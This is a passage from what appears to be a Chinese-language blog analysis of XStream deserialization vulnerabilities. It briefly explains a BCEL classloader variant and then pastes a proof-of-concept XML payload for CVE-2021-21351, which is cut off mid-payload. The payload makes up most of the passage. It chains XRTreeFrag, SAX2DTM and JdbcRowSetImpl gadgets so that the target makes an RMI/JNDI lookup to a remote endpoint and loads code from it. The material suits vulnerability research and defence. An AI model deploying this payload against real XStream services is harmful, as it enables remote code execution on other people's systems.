该漏洞的整个利用链和 CVE-2021-21345 如出一辙，不同的地方在于，最后的加载恶意 Class 的 Classloader 不再使用 URLClassloader 去远程加载，而是采用了 com.sun.org.apache.bcel.internal.util.ClassLoader，这里相信对 FastJson 有了解的同学应该不陌生，这里使用了 BCEL 的方式来进行恶意代码执行

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxPXCGwGdCSia7FgJGI1ttILhg1SBTG2wONzicXz6ib4HTo7yR5JnBCRXQg/640?wx_fmt=png)

但是整个利用链和 CVE-2021-21347 是一样的，所以这里也就不重复赘述了。  

**0x06  CVE-2021-21351**
========================

粘贴一下 POC  

```
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
```